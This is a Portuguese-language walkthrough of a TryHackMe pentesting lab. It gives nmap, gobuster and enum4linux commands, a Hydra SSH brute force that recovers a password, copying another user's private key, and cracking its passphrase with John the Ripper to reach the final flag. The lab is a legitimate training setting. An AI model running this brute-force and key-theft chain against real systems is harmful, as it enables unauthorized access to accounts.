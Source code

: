 # Writeup Basic Pentest TryHackMe
# TryHackMe Room: https://tryhackme.com/room/basicpentestingjt
# By: LGL5
# IP-MACHINE: IP of machine "try hack me" 
1- nmap scan host:

#nmap -sV 10.10.52.205
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-19 10:30 -03
Nmap scan report for 10.10.52.205
Host is up (0.31s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13?
8080/tcp open  http-proxy

2- Listando Diretorios Apache:
#gobuster dir -u http://10.10.52.205 -w /usr/share/wordlists/dirb/common.txt

3- enumerando usuarios apache
#enum4linux -a 10.10.52.205
result: 
...
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)

4- Hydra brute force na porta ssh:
#hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.52.205
Result:
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-19 11:23:37
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.52.205:22/
[STATUS] 177.00 tries/min, 177 tries in 00:01h, 14344223 to do in 1350:41h, 16 active
[STATUS] 112.67 tries/min, 338 tries in 00:03h, 14344063 to do in 2121:55h, 16 active
[22][ssh] host: 10.10.52.205   login: jan   password: armando  <-- SENHA ENCONTRADA

5- Realizar conexão ssh com o server:
ssh jan@10.10.52.205 <--- SSH RODANDO NA PORTA 22 DEFAULT

6- Acessar diretorios do usuario kay:
$cd /home/kay

7- Listar diretorios do Kay:
$ls -lah

8- Acessar arquivo id_rsa:
$vim id_rsa <--- COPIAR DADOS

9- Utilizando o John the crack hash: 
No computador do atacante:
	-Criar arquivo id_rsa;
	-Rodar comando do John:
	#python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
	- Crack HASH:
	#/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
	retorna a hash: beeswax
 	

 Agora temos o hash crackeado do usuário, kay. Lembre-se de que esta não é a senha do usuário ssh, mas sim o hash crackeado da chave privada que encontramos no diretório do usuário kay que foi acessado por conexão com Jan via ssh. Portanto, precisamos aplicar o hash crackeado via usuário Jan como mostrado abaixo

 10- Acessar via ssh o usuario Kay via usuario JAN:
 No computador do atacado via usuario jan
 	$ssh -i /home/kay/.ssh/id_rsa kay@10.10.52.205
 	Coloque o Hash crackeado quando solicitado a senha;

 11- Listando os diretorios no usuario Kay:
 $ls -lah
 Sera encontrado o arquivo "pass.bak" <--A ULTIMA KEY ESTARA NESTE ARQUIVO
 $vim pass.bak	

 fim.
